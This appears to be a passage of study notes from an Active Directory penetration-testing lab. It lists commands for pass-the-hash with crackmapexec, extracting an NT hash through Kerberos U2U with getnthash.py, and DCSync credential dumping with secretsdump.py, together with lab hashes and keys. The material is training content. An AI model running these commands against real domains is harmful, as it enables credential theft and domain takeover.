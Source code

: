 We could also use a **more straightforward command:** `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` because the **tool will retrieve the username from the ccache file.**

## Running klist
- `klist`

## Confirming Admin Access to the Domain Controller
- `crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf`

## Submitting a TGS Request for Ourselves Using getnthash.py
- We can also take an **alternate route once we have the TGT for our target.**
- Using the **tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U** to submit a TGS request with the [Privileged Attribute Certificate (PAC)](https://stealthbits.com/blog/what-is-the-kerberos-pac/) which contains the NT hash for the target.
	- `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$`
	- We can then use this hash to perform a DCSync with secretsdump.py using the `-hashes` flag.
## Using Domain Controller NTLM Hash to DCSync
- `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba`